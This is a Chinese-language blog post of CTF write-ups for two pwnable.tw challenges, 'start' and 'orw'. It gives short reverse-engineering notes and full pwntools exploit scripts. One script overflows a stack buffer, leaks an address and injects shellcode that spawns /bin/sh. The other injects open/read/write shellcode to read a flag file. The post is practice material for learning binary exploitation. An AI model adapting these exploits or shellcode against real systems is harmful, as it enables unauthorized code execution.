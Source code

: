 ```yaml
---
layout:     post
title:      pwnable.tw部分wp（更新中）
subtitle:   pwnable.tw解出题目的wp
date:       2020-10-22
author:     X1ng
header-img: tw.jpg
catalog: true
tags:
    - pwnable.tw
    - wp

---
```


最近在刷pwnable.tw。。。

### 1.start

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmh9vl628j31v402wdg4.jpg)

没有开NX保护

用ida打开

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmh9vq0uij31wn0u0tg5.jpg)

只有start和exit函数，通过系统调用来调用函数，系统调用好保存在eax中，在执行完4号write系统调用和3号read系统调用后返回地址处是exit函数，可以看到即将执行ret时，esp指向地址的下一个地址是一个栈上的地址

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmh9vez71j31bs0owaf1.jpg)

可以将其覆盖为`mov ecx,esp`，再重新执行write系统调用，就可以泄露出栈地址，再输入shellcode跳转到shellcode即可

exp:

```python
from pwn import *

r = 1
context(arch = 'i386', os = 'linux')

if r == 1 :
	p = remote('chall.pwnable.tw',10000)
else:
	p = process('./start')

mov = 0x08048087
#gdb.attach(p,'b *0x804809c')
p.recvuntil('Let\'s start the CTF:')
p.send(b'a'*0x14+p32(mov))
stack = p.recv(4)
stack = u32(stack)
print(hex(stack))

'''

mov ebx,0xffffffff
xor edx,edx
xor ecx,ecx
mov al,11
int 0x80
'''

pd = b'\xbb'+p32(stack-4+0x14+4)+b'1\xd21\xc9\xb0\x0b\xcd\x80'
pd += b'a'*(0x14-len(pd))+p32(stack-4)+b'/bin///sh\x00'
p.sendline(pd)

p.interactive()
```

### 2.orw

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmhhgdf2fj30qi07ugnk.jpg)

ida反汇编

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmhhggm0ej316a0c4t9m.jpg)

根据题目提示只能使用open，read，write

在kali上不管输入什么都是段错误，用ubuntu16可以正常写入shellcode

在shellcode后面

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmhhg52zcj314c0eqagd.jpg)

exp:

```python
from pwn import *

r = 1
context(arch = 'i386', os = 'linux')
bss = 0x0804A040

if r == 1 :
	p = remote('chall.pwnable.tw',10001)
else:
	p = process('./orw')
#gdb.attach(p,'b *0x804858a')
p.recvuntil('shellcode:')


#fd = open('/home/orw/flag',0)
s = '''
xor edx,edx;
mov ecx,0;
mov ebx,0x804a094;
mov eax,5;
int 0x80;
'''

#read(fd,0x804a094,0x20)
s += '''
mov edx,0x40;
mov ecx,ebx;
mov ebx,eax;
mov eax,3;
int 0x80;
'''

#write(1,0x804a094,0x20)
s += '''
mov edx,0x40;
mov ebx,1;
mov eax,4
int 0x80;
'''
pd = asm(s)+b'/home/orw/flag\x00'
p.send(pd)
print p.recv()

p.interactive()
```



